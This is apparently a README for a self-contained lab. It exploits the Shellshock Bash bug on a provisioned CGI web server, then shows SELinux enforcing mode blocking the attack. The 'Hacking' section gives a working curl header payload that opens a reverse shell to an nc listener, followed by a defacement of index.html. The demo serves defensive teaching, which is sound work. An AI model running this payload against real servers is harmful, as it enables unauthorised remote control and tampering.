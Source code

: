 Shellshock
==========

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014.

Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands.

This demo will show how to prevent security issues similar to shellshock by using SELinux

> NOTICE: More details about patching can be found on redhat website [here](https://access.redhat.com/security/vulnerabilities/shellshock#)

Pre-requisites
--------------

This demo was developed on GNU/Linux, my desktop distro is Fedora 28. All tools used will be described below:

* Fedora
* CentOS/RHEL
* Vagrant
* Libvirt/KVM
* Ansible
* netcat

Provisioning
------------

In order to make it possible to use this demo, you should first provision your environment after checkout this repo.

```bash
$ git clone https://github.com/fabiogoma/selinux-shellshock
$ vagrant up
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Creating image (snapshot of base box volume).
==> shellshock: Creating domain with the following settings...
==> shellshock:  -- Name:              shell_shellshock
==> shellshock:  -- Domain type:       kvm
==> shellshock:  -- Cpus:              2
==> shellshock:  -- Feature:           acpi
==> shellshock:  -- Feature:           apic
==> shellshock:  -- Feature:           pae
==> shellshock:  -- Memory:            2048M
==> shellshock:  -- Management MAC:
==> shellshock:  -- Loader:
==> shellshock:  -- Base box:          centos/7
...
...
...
TASK [fabiogoma.shellshock : Ensure Apache HTTPD server is up] *****************
ok: [shellshock]

TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
changed: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=25   changed=19   unreachable=0    failed=0
```

After provisioning your environment, you should be able to check a web page hosted by your new provisioned host, just navigate to http://shellshock.local/ on your prefered browser, you should see a page similar to the one below:

<p align="center">
  <img src="images/characters.png">
</p>

Hacking
-------

Let's now open two terminals and execute a hack

On your first terminal, using the netcat tool (nc) initiate a socket listener on port 9999 with some verbosity:

```bash
$ nc -lkvp 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 459E 024D BF1A BA99 7052 5697 87C1 BCE9 50BD 675C
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Open a second terminal now and using curl, tell your http server to initiate a remote session on your local server listening on port 9999:

```bash
$ curl -k -H 'x: () { :;}; /bin/bash -i >& /dev/tcp/192.168.122.1/9999 0>&1' http://shellshock.local/cgi-bin/script

```

> NOTICE: After pressing enter, you will see no result, but the terminal will hang, waiting for a Ctrl+C to terminate the command. It will probably terminate by timeout, but your hacked session will be started already.

On your first terminal, you will see a new session runing:

```bash
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.121.104.
Ncat: Connection from 192.168.121.104:36908.
bash: no job control in this shell
bash-4.2$ pwd
pwd
/var/www/cgi-bin
bash-4.2$ cd ../html
cd ../html
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ ls -l
ls -l
total 172
-rw-r--r--. 1 apache apache 36966 Sep 18 20:06 daphne.png
-rw-r--r--. 1 apache apache 32898 Sep 18 20:06 fred.png
-rw-r--r--. 1 apache apache   407 Sep 18 20:06 index.html
-rw-r--r--. 1 apache apache 43113 Sep 18 20:06 shaggy.png
-rw-r--r--. 1 apache apache 45709 Sep 18 20:06 velma.png
bash-4.2$ 

```

This is a new bash session running on your remote http server, whatever you do here, will immediatelly take efect on your server.

The expected result so far is the one we show below:

<p align="center">
  <img src="images/terminals-hacked.png">
</p>

Now let's hack the remote server by changing the index.html content

```bash
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ echo "<h1>Hacked</h1>" > index.html
echo "<h1>Hacked</h1>" > index.html
bash-4.2$
```

The hacked page now should no longer show your cartoon characters, but the hacked content instead.

<p align="center">
  <img src="images/hacked.png">
</p>

Protecting your system
----------------------

Now let's start over by executing the provisioner again to return all configuration to the initial state

```bash
$ $ vagrant up --provision
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Running provisioner: ansible...
    shellshock: Running ansible-playbook...

PLAY [Provisioning shellshock demo host] ***************************************

TASK [Gathering Facts] *********************************************************
ok: [shellshock]

TASK [include_role : fabiogoma.common] *****************************************

TASK [fabiogoma.common : Disable IPV6] *****************************************
ok: [shellshock]

TASK [fabiogoma.common : Install EPEL repo] ************************************
ok: [shellshock]

TASK [fabiogoma.common : Install basic packages] *******************************
ok: [shellshock] => (item=[u'nss-mdns', u'net-tools', u'telnet', u'tcpdump', u'lsof', u'strace', u'wget', u'mlocate', u'setroubleshoot', u'setroubleshoot-server', u'policycoreutils-devel'])

TASK [fabiogoma.common : Configure mDNS] ***************************************
ok: [shellshock]

TASK [fabiogoma.common : Configure hostname] ***********************************
ok: [shellshock]
...
...
...
TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
skipping: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=22   changed=1    unreachable=0    failed=0
```

> NOTICE: This time the provisioning will be much faster, since the only change happening now will be on the index.html file

Using vagrant let's change the SELinux state from permissive to enforcing

```bash
$ vagrant ssh
Last login: Tue Sep 18 20:27:11 2018 from 192.168.121.1
[vagrant@shellshock ~]$ getenforce
Permissive
[vagrant@shellshock ~]$ sudo setenforce 1
[vagrant@shellshock ~]$ getenforce
Enforcing
[vagrant@shellshock ~]$
```

Let's do the hack again and check the result on image below:

<p align="center">
  <img src="images/terminals-protected.png">
</p>

> NOTICE: You'll see now that you are no longer able to run a remote shell, this is due the fact of SELinux now is set to enforce security and your system will be protected.

